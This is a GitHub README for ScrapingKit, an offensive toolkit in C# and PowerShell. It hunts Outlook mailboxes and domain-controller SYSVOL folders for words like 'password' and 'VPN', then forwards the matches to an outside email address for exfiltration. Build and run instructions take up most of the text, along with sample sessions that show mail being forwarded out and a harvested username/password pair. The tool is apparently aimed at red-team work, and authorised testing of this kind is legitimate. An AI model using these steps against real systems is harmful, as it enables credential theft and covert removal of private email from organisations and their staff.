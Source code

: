 # ScrapingKit
## v1.01 Release
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/4655e287-cc3c-480c-97a7-e280c9fcb149)


Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently with more to come in the coming months and more customisation options.

- SharpScrapeKit
- PSScrapeKit

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information over on [Lares Labs](https://labs.lares.com/) (Blog post goes live Tuesday 30th May 08:00 UTC).

https://labs.lares.com/introducing-the-scraping-kit/

#### Required NuGet Pakages

1. Right-click on project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is a powershell implementation of ScrapeKit, it consists of two files; DCScraper & OutlookScrape. Each has a specific function for scraping either a DC or Outlook. The outlook scraper will connect to the user's outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing. Whereas the DC one will connect to sysvol and look for specific keywords or a default list.

- DCScrape.ps1
- OutlookScrape.ps1

### How to Use

#### DCScrape
Execute the script from a domain connected machine or in a runas session to crawl the DC;

```
.\DCScrape.ps1
```
#### OutlookScrape
Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

### Example execution:
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/870ff5d6-2380-4d4f-956b-71f16267feb2)
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/1357b27c-bad5-453b-b4cf-ed244d39d21d)


